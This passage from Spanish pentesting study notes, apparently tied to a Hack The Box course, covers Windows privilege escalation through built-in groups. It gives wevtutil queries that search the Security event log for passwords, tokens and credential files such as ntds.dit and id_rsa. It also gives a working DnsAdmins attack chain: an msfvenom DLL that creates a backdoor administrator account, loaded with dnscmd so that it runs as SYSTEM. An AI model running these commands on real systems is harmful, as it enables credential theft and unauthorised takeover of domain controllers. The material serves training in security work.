 	# Mostrar miembros del grupo
	net localgroup "Event Log Readers"
	```
- Búsqueda con `webtutil` (nativa de Windows)

| 🎯 Objetivo                       | 💣 Comando `wevtutil`                                                                                 |
| --------------------------------- | ----------------------------------------------------------------------------------------------------- |
| 🔐 Contraseñas en argumentos      | `wevtutil qe Security /rd:true /f:text \| findstr /i "password pass pwd /user /p:"`                   |
| 💳 Credenciales vía net use       | `wevtutil qe Security /rd:true /f:text \| findstr /i "net use"`                                       |
| ✏️ Scripts con secretos (.ps1...) | `wevtutil qe Security /rd:true /f:text \| findstr /i ".ps1 .bat token key secret .vbs"`               |
| 🧠 Tokens o valores sospechosos   | `wevtutil qe Security /q:"*[System[(EventID=4688)]]" /rd:true /f:text \| findstr /i "password token"` |
| 🧍 Usuario + contraseña juntos    | `wevtutil qe Security /rd:true /f:text \| findstr /i "/user: /pass: /u: /p:"`                         |
| 📂 Rutas sensibles accedidas      | `wevtutil qe Security /rd:true /f:text \| findstr /i "cred hash secrets.txt ntds.dit"`                |
| 📦 Archivos clave como argumentos | `wevtutil qe Security /rd:true /f:text \| findstr /i ".kdbx id_rsa .ovpn .env"`                       |
### DNS Admins
Los usuarios pertenecientes  a este grupo tienen control total sobre el servicio DNS del DC. 
- Los usuarios de este grupo pueden utiliar  `dnscmd.exe` para cargar un dll personalizada como plugin de dns. Como el servicio DNS se ejecuta como `NT AUTHORITY\SYSTEM`, también lo hará nuestra dll. 
- Comprobar que pertenecemos al grupo
	```powershell
	net localgroup "DnsAdmins"
	```
- Creación de dll (podría ser revshell en lugar de esta)
	```powershell
	 msfvenom -p windows/x64/exec CMD='net user an0nio Password123! /add && net localgroup Administrators an0nio /add' -f dll -o adduser.dll
	```
- Cargamos la dll como plugin (debemos poner ruta absoluta)
	```cmd-session
	dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
	```
- Reiniciamos el servicio dns
	```powershell
	sc.exe stop dns
	sc.exe start dns
	```
### Print operators
TODO [htb](https://academy.hackthebox.com/module/67/section/605)
### Server operators
Permite a los usuarios de este grupo administrar Windows Servers sin necesidad de tener privilegios de Domain Admin. Los miembros de este grupo tienen los privilegios `SeBackupPrivilege` y `SeRestorePrivilege`. Ponemos un ejemplo de como escalar privilegios
- Comprobamos la pertenencia al grupo
	```powershell
	net localgroup "Server Operators"
	```
